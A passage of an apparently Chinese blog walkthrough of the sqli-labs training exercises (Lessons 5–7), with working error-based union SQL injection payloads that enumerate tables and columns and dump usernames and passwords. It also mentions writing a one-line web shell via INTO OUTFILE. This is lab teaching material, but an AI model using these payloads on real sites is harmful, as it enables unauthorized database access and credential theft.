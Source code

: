是有50%几率失败的，多查几下就爆出来了数据库名'security'

3、查表

```
?id=-1' union select 1,count(*),concat( (select table_name from information_schema.tables where table_schema='security' limit 3,1),floor(rand(4)*2)) as a from information_schema.columns group by a --+
```

也基本是死格式，注意一下limit函数的用法就可以了

![在这里插入图片描述](https://img-blog.csdnimg.cn/5560cb1d95db4d2788b14b05ef9d47ce.png?x-os-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAVExfX2dob3N0,size_20,color_FFFFFF,t_70,g_se,x_16)

通过改变limit的值来查表，得到表名‘users'

4、查字段

```
?id=-1' union select 1,count(*),concat( (select column_name from information_schema.columns where table_name='users' limit 4,1),floor(rand(4)*2)) as a from information_schema.columns group by a --+
```

通过改变limit的值来查

![在这里插入图片描述](https://img-blog.csdnimg.cn/ea8b17a9b39c4f59ba806ee647c31ef0.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAVExfX2dob3N0,size_20,color_FFFFFF,t_70,g_se,x_16)

5、查用户名和密码

```
?id=-1' union select 1,count(*),concat( (select username from users limit 0,1),floor(rand(4)*2)) as a from information_schema.columns group by a --+
```

用户名

![在这里插入图片描述](https://img-blog.csdnimg.cn/96975edd8caa4e8f95eb0c50b475c27a.png?x-os-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAVExfX2dob3N0,size_20,color_FFFFFF,t_70,g_se,x_16)

密码

![在这里插入图片描述](https://img-blog.csdnimg.cn/7b603c6a30fe4507a50d4e11a66d5674.png?x-os-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAVExfX2dob3N0,size_20,color_FFFFFF,t_70,g_se,x_16)

#### 注意：用户名与密码的列数必须相对应，不然牛头不对马嘴了

sql注入至此完成

## Test 6

除了闭合错误换成了双引号，其他与5一模一样

## Test 7

掌握一句话木马和into outfile的用法

![在这里插入图片描述](https://img-blog.csdnimg.cn/a9a1e07e50134f3baa71d6293a5f4110.png?x-os-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAVExfX2dob3N0,size_20,color_FFFFFF,t_70,g_se,x_16)

可以看到这里生成了一个test文件，发现已经被写入了
